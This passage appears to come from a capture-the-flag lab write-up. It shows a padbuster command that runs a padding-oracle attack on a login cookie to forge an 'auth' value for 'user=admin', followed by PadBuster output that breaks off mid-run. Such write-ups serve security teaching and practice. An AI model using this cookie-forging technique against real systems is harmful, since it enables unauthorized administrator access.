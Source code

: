     [+] Decrypted value (Base64): dXNlcj10ZXN0ZXIFBQUFBQ==
    
    -------------------------------------------------------

The result says that, **user=tester** is being encrypted to resulted string, so its pretty straight forward that we have to create a encrypted phrase with **user=admin**. 


    padbuster http://10.10.10.18/login.php E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L 8 --cookie auth=E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L --encoding 0 -plaintext user=admin

Note: Replace with your auth value while using above command.


    +-------------------------------------------+
    | PadBuster - v0.3.3                        |
    | Brian Holyfield - Gotham Digital Science  |
    | labs@gdssecurity.com                      |
    +-------------------------------------------+
    
    INFO: The original request returned the following
    [+] Status: 200
    [+] Location: N/A
    [+] Content Length: 1486
    
    INFO: Starting PadBuster Encrypt Mode
    [+] Number of Blocks: 2
    
    INFO: No error string was provided...starting response analysis
    
    *** Response Analysis Complete ***
    
    The following response signatures were returned:
    
    -------------------------------------------------------
    ID#     Freq    Status  Length  Location
    -------------------------------------------------------
    1       1       200     1564    N/A
    2 **    255     200     15      N/A
    -------------------------------------------------------
    
    Enter an ID that matches the error condition
    NOTE: The ID# marked with ** is recommended : 2
    
    Continuing test with selection 2
    
    [+] Success: (196/256) [Byte 8]
    [+] Success: (148/256) [Byte 7]
    [+] Success: (92/256) [Byte 6]
    [+] Success: (41/256) [Byte 5]
    [+] Success: (218/256) [Byte 4]
    [+] Success: (136/256) [Byte 3]
    [+] Success: (150/256) [Byte 2]
    [+] Success: (190/256) [Byte 1]
    
    Block 2 Results:
    [+] New Cipher Text (HEX): 23037825d5a1683b
    [+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d
    